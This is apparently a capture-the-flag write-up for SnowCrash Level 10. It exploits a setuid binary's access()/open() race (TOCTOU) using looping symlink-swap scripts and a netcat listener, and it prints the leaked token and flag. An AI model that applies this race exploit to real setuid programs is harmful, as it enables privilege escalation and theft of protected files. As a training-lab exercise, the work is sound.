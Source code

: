 
## Level 10



## Clues


Same type of problem we have here:

```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$
```

Lets see what the executable does :

```
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ echo "hello" > /tmp/file
level10@SnowCrash:~$ ./level10 /tmp/file 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
level10@SnowCrash:~$
```
```
level10@SnowCrash:~$ strace ./level10 /tmp/hello 127.0.0.1
write(1, "Connecting to 127.0.0.1:6969 .. ", 32Connecting to 127.0.0.1:6969 .. ) = 32
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
write(3, ".*( )*.\n", 8)                = 8
write(1, "Connected!\n", 11Connected!
)            = 11
write(1, "Sending file .. ", 16Sending file .. )        = 16
open("/tmp/hello", O_RDONLY)            = 4 //Open our file
read(4, "hehe\n", 4096)                 = 5
write(3, "hehe\n", 5)                   = 5
write(1, "wrote file!\n", 12wrote file!
)           = 12
```
The executable seems able to send file to host, using the 6969 port, lets make another ssh connection in order to listen to it.

```
level10@SnowCrash:~$ ./level10 /tmp/file 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. wrote file!
level10@SnowCrash:~$
```

```
level10@SnowCrash:~$ nc -lk 6969
.*( )*.
hello

```

So it reads our file and send us the content, it also send us a banner ```.*( )*.``` maybe for the sake of the socket connection.


## Solution


So we must crack that executable so it opens the token file, reads it and send it to us.


```
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
level10@SnowCrash:~$
```

Lets check how the program check the permission.

```
level10@SnowCrash:~$ ltrace ./level10 token 127.0.0.1
access("token", 4)                                                        = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)                          = 31
level10@SnowCrash:~$
```

It is using an access, lets try with a symlink.

```
level10@SnowCrash:~$ ln -sf token /tmp/faketoken
level10@SnowCrash:~$ ./level10 /tmp/faketoken 127.0.0.1
You don't have access to /tmp/faketoken
level10@SnowCrash:~$
```

Not working...

We dont have the right permission of the executable, so we can't change his assembly code in order to modify his ```if``` statement.

I also tried to use breakpoint with GDB, to succeed the first access() call, and then change the symlink to the token file, it is working, but the open() function calls fail, since using a debugger to an SSUID binary, will remove his elevated permission.

![Snowcrash](./GDBtry.png)

From this point i didn't saw any breach to look for.

So i thought that if we did the exact same thing, but without a debugger it would work.

The only way to make it possible is to use a brute force script that will constantly change the symlink, and another one that will call the executable in a loop.

With those script, an offset will be created, and the program might get tricked to open the token file.


![Snowcrash](./ScriptWork.png)

symlink.sh file :
```
ln -sf /tmp/hello token
ln -sf ~/token token
/tmp/symlink.sh
```

request.sh :
```
./level10 /tmp/token 127.0.0.1
/tmp/request.sh
```


Lets launch both of the script and check for the result:

```
nc -lk 6969

.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
```

```
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$
```

The result may depend of the computer performance, but its working, and it was really a tough one.


## What i learned 

Searching for vulnerabilities is time consuming and frustrating, and can lead to days without any discoveries.

You can actually change condition by editing the assembly code, like jump if equal, to jump if not equal, by editing the executable with vim -b.

More reverse engineering practice.

Perseverance and more curiosity.